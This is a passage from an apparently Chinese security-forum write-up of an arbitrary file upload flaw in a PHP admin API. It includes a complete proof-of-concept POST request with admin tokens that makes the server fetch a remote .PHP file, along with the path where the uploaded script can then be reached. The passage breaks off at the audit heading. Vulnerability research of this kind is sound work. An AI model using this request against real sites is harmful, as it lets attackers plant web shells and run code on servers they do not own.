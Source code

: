 上传后可以在上传商品图找到文件路径。

![document_image_rId29.png](https://shs3.b.qianxin.com/attack_forum/2023/12/attach-d86f9d265311954ca82a72ef0d5a433d8902c75f.png)

也可以通过观察  
`http://localhost:45600/adminapi/file/file?pid=&real_name=&page=1&limit=18`  
接口返回的数据中找到文件访问路径。

![document_image_rId30.png](https://shs3.b.qianxin.com/attack_forum/2023/12/attach-1dd7655bdb5bfb63e4e80bdd3a7fba6183207d65.png)

POC数据包：

```php
POST /adminapi/file/online_upload HTTP/1.1
Host: localhost:45600
Content-Length: 55
sec-ch-ua: "Not A(Brand";v="24", "Chromium";v="110"
Accept: application/json, text/plain, */*
Content-Type: application/json;charset=UTF-8
Authori-zation: Bearer eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJwd2QiOiIxZDlmMjExMGZlOTgzM2U1MTQ4MmQyZjdkMTFmZjFlNiIsImlzcyI6ImxvY2FsaG9zdDo0NTYwMCIsImF1ZCI6ImxvY2FsaG9zdDo0NTYwMCIsImlhdCI6MTY5NDA1NjkyMCwibmJmIjoxNjk0MDU2OTIwLCJleHAiOjE2OTY2NDg5MjAsImp0aSI6eyJpZCI6MSwidHlwZSI6ImFkbWluIn19.6gzs6MXyxnHOEckxP4ejuoNJxLpMcT3MdyLRPBAkJ8k
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.5481.178 Safari/537.36
sec-ch-ua-platform: "Windows"
Origin: http://localhost:45600
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://localhost:45600/admin/marketing/live/add_live_room
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: cb_lang=zh-cn; PHPSESSID=23b220209fa9cd4879a5173dc74c2bba; uuid=1; token=eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJwd2QiOiIxZDlmMjExMGZlOTgzM2U1MTQ4MmQyZjdkMTFmZjFlNiIsImlzcyI6ImxvY2FsaG9zdDo0NTYwMCIsImF1ZCI6ImxvY2FsaG9zdDo0NTYwMCIsImlhdCI6MTY5NDA1NjkyMCwibmJmIjoxNjk0MDU2OTIwLCJleHAiOjE2OTY2NDg5MjAsImp0aSI6eyJpZCI6MSwidHlwZSI6ImFkbWluIn19.6gzs6MXyxnHOEckxP4ejuoNJxLpMcT3MdyLRPBAkJ8k; expires_time=1696648920; WS_ADMIN_URL=ws://localhost:45600/notice; WS_CHAT_URL=ws://localhost:45600/msg
Connection: close

{"pid":"","images":["http://localhost:19000/help.PHP"]}
```

访问  
`http://localhost:45600/uploads/attach/2023/09/07/749aa9192a0f6ff0ed7c34418e6fe97f.PHP`

![document_image_rId31.png](https://shs3.b.qianxin.com/attack_forum/2023/12/attach-c78fcf111b989782e9a1d71789dabeb818b86344.png)

### 漏洞审计

利用链路：
